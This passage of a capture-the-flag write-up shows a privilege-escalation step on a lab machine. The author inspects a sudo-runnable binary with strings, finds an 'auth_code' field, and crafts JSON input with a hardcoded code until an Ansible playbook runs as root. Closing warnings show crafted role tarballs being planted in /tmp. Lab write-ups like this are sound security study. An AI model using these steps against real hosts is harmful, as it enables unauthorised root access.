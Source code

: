 #### auth\_code

I’ll take some guesses about where it goes, but that doesn’t lead anywhere. Running strings on `runner2`, I’ll see this bunch:

```

.yml
%d: %s
/opt/playbooks/inventory.ini
/usr/bin/ansible-playbook
%s -i %s %s%s
Usage: %s <json_file>
Failed to open the JSON file
Error parsing JSON data.
action
list
auth_code
Authentication key missing or invalid for 'run' action.
Invalid playbook number.
Invalid 'num' value for 'run' action.
install
role_file
Authentication key missing or invalid for 'install' action.
Role File missing or invalid for 'install' action.
Invalid 'action' value.
Action key missing or invalid.
Run key missing or invalid.

```

`auth_code` seems promising as a way to pass the authentication code. It’s not inside the `run`, but parallel:

```

lopez@intuition:/tmp$ echo '{"run": {"action": "run", "auth_code": "UHI75GHINKOP"}}' > t.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 t.json 
Authentication key missing or invalid for 'run' action.
lopez@intuition:/tmp$ echo '{"run": {"action": "run"}, "auth_code": "UHI75GHINKOP"}' > t.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 t.json 
Invalid 'num' value for 'run' action.

```

#### Successful run

It doesn’t work with `num` as a string, but as an int it does:

```

lopez@intuition:/tmp$ echo '{"run": {"action": "run", "num": "1"}, "auth_code": "UHI75GHINKOP"}' > t.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 t.json 
Invalid 'num' value for 'run' action.
lopez@intuition:/tmp$ echo '{"run": {"action": "run", "num": 1}, "auth_code": "UHI75GHINKOP"}' > t.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 t.json 

PLAY [Update and Upgrade APT Packages test] ***********************************************************************************************************************************************************************

TASK [Gathering Facts] ********************************************************************************************************************************************************************************************
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
```

[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.